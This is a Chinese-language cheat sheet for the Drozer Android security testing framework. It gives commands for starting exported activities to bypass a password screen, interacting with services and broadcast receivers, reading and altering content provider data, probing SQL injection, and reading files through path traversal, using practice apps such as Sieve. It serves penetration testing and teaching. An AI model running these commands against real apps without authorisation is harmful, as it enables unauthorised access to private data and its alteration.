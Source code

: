```yaml
---
title: Drozer Cheat Sheet
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer"
---
```


# Drozer Cheat Sheet

## Basic Console
基本上最常用的command就是
```bash!
dz> run <drozer module> <optional object> # 啟動內建的module做到依稀操作
dz> help <drozer module> # 查看該module的說明以及參數設定
```

```bash!
dz> run app.package.list #列出所有已安裝的app package
dz> run app.package.list -f <key word> #列出特定的app package 
dz> run app.package.info -a <app package name> # 列出該app的基本訊息
dz> run app.package.manifest <app package name e.g. jakhar.aseem.diva> # 查看AndroidManifest.xml的資訊
dz> run app.package.attacksurface <app package name e.g. com.mwr.example.sieve> # 查看該app有什麼攻擊面
Attack Surface:
    3 activities exported # 也許可以啟動一個activity並且bypass某種應該阻止我啟動他的權限
    0 broadcast receivers exported
    2 content providers exported # 也許可以fetch private data或是利用某些漏洞 e.g. sqli or path traversal
    2 services exported
        is debuggable
```
接著根據得到的資訊看要用以下哪一種的攻擊模式

### activities exported
如果確定該app的AndroidManifest.xml有設定==android:export="true"==，就代表有機會bypass他的權限，根據[^csdn-androidmanifest-xml]這個地方的風險如下:
> android:exported
> 這個屬性用於指示該服務是否能夠被其他應用程序組件call或跟它interact。如果設置為true，則callable或interactable，否則不能。設置為false時，只有同一個應用程序的組件或帶有相同用戶ID的應用程序才能啟動或綁定該服務。
1. 列出export activities有哪些
    ```bash!
    dz> run app.activity.info -a <app package name>
    ```
2. 啟動activity
    ```bash!
    dz> run app.activity.start --component <app package name> <activity name fetched by above command>
    ```
    此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
    ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)

### services exported
和上面的問題差不多，只是差在被export的是services
1. 列出export services有哪些
    ```bash!
    dz> run app.service.info -a <app package nam>
    ```
2. 與該services互動
    這邊就不是像上一個activity一樣是啟動，而是要和他互動，因為service本來就是一個運行在背景的服務，他沒有畫面，無法和一般使用者互動，會需要的module如下
    ```
    app.service.send            Send a Message to a service, and display the reply
    app.service.start           Start Service
    app.service.stop            Stop Service
    ```
    如果去看`app.service.send`該如何使用，可以直接看範例就好，簡單來說我們可以丟給service一連串東西，就看逆向之後該service怎麼寫，如果參數不夠，可以用`--extra`去包後面的參數
    ```bash
        dz> run app.service.send com.example.srv com.example.srv.Service --msg 1 2 3 --extra float value 0.1324 --extra string test value
        Got a reply from com.example.srv/com.example.srv.Service:
          what: 1
          arg1: 2
          arg2: 3
        Data:
          value (float) : 0.1324
          test (string) : value
    ```

### broadcast receivers exported
根據[^pixnet-android-broadcast]的說明，broadcast屬於process之間的通訊，根據教學:
> 發現這些廣播接收器後，您應該檢查它們的代碼。特別注意**onReceive**函數，因為它將處理接收到的消息。

1. 檢測broadcast receiver
    ```bash
    dz> run app.broadcast.info # 檢測所有broadcast receiver
    dz> run app.broadcast.info -a <app package name> # 檢查特定app內的broadcast receiver
    ```
2. 和前面的exported service一樣，我們要和他們互動，但至於要傳送什麼也是要透過逆向來後來判斷
    ```bash
    app.broadcast.info          Get information about broadcast receivers
    app.broadcast.send          Send broadcast using an intent
    app.broadcast.sniff         Register a broadcast receiver that can sniff particular intents
    ```
    根據help的提示如下，可以知道該如何使用send→Sends an intent to broadcast receivers.
    ```bash
    dz> run app.broadcast.send --action <action name fetch by AndroidManifest.xml> --component <path to the function name> <function name>
    ```
    ```bash
    Examples:
    Attempt to send the BOOT_COMPLETED broadcast message:
        dz> run app.broadcast.send --action android.intent.action.BOOT_COMPLETED
        java.lang.SecurityException: Permission Denial: not allowed to send broadcast
    android.intent.action.BOOT_COMPLETED from pid=955, uid=10044
    ```

### content providers exported
1. 檢查Content Provider的exported狀況
    ```bash
    dz> run app.provider.info -a <app package name>
    
    # Drozer可以猜測並嘗試多個URI，這樣我們才知道確切的URI長怎樣
    dz> run scanner.provider.finduris -a <app package name>
    ```
2. 利用逆向判斷他是基於database還是基於file system的Content Provider
    * 基於DataBase
        ```bash
        #1. 查詢內容
        dz> run app.provider.query <URI> [--projection [columns ...]] [--selection conditions] [--selection-args [arg ...]] [--order by_column] [--vertical]
        
        #2. 插入內容
        dz> run app.provider.insert <URI> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #3. 更新內容
        #總而言之就是要選擇更新的地方，和要更新的內容為何
        #selection參數有點像是一般常見的"WHERE <conditions>"
        dz> run app.provider.update <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #4. 刪除內容
        #幾乎和前面一樣，也就是要指定刪除的位置
        dz> run app.provider.delete <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> 
        
        #5. SQLi
        #這邊是利用query來達到sqli，利用--selection和--projection這兩個參數，
        #projection這個參數，原文的解釋: 
        #the columns to SELECT from the database, as in "SELECT <projection> FROM ..."
        dz> run app.provider.query <URI> --selection "'"
        dz> run app.provider.query <URI> --projection "*
        
        #6. Drozer自動發現SQLi
        dz> run scanner.provider.injection -a <app package name>
        dz> run scanner.provider.sqltables -a <app package name>
        ```
    * 基於File System
        ```bash
        #1. 讀取文件
        dz> run app.provider.read <URI+path>
        
        #2. Path Traversal
        dz> run app.provider.read <URI+../../../../+path>
        
        #3. Drozer自動發現Path Traversal
        dz> run scanner.provider.traversal -a <app package name>
        
        #4. Download File to Local
        run app.provider.download <URI+path> hosts
        ```

### is debuggable
可以直接用drozer找，或者是直接看AndroidManifest.xml中有無提到==debuggable="true"==
```bash
# 找到所有debuggable的app
dz> run app.package.debuggable
```